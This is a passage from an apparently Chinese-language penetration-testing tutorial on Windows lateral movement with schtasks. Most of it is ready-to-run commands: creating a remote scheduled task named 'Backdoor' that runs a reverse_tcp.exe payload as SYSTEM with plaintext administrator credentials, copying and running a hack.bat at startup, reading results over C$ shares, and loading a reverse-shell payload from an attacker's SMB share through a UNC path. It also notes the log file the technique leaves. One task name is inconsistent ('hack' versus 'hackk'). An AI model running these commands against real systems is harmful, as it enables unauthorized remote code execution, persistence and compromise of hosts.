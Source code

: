 如果没有建立 IPC 连接，则需要指定远程主机的用户凭据

```bash
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F /U Administrator /P 123qwe@
```

-   创建完成后，可以等待计划任务自行执行，也可以立即启动计划任务 shell

```bash
schtasks /RUN /S 192.168.1.131 /I /TN Backdoor
```

-   查看计划任务 shell

```bash
schtasks /query /S 192.168.1.131 /TN Backdoor
```

-   删除计划任务 shell

```bash
schtasks /Delete /S 192.168.1.131 /TN Backdoor /F
```

也可以通过计划任务执行系统命令，将执行结果写入文件，然后使用 type 命令查看文件

```bash
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR "c:\windows\system32\cmd.exe /c 'whoami' > c:\users\public\result.txt" /RN System /F


type \\192.168.1.131\C$\users\public\result.txt
copy C:\Users\Administrator\Desktop\hack.bat \\192.168.1.131\c$\Windows\Temp

schtasks /create /tn hack /tr C:\Windows\Temp\hack.bat /sc ONSTART /s 192.168.1.131 /ru "system" /u administrator /p 123qwe@

schtasks /run /tn hackk /s 192.168.1.131

type \\192.168.1.131\c$\Windows\Temp\result.txt

schtasks /delete /s 192.168.1.131 /u administrator /p 123qwe@ /tn hackk /f
```

**注意：在使用 schtasks 命令时，会在系统中留下日志文件 C:\\Windows\\Tasks\\SchedLgU.txt。**

### [UNC 路径加载执行](#toc_unc)

Windows 系统使用 UNC 路径来访问网络共享资源，格式为

```bash
\\servername\sharename\directory\filename # servername 服务器；sharename 网络共享名字
```

攻击载荷在远程主机上时，可以直接使用 UNC 路径代替常规的本地路径，让目标主机直接在测试人员搭建的 Smb 共享中加载攻击载荷并执行。这样可以省去手动上传载荷的步骤。

例如：

```bash
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR \\192.168.1.1\mysmb\reverse_tcp.exe /RN System /F
```
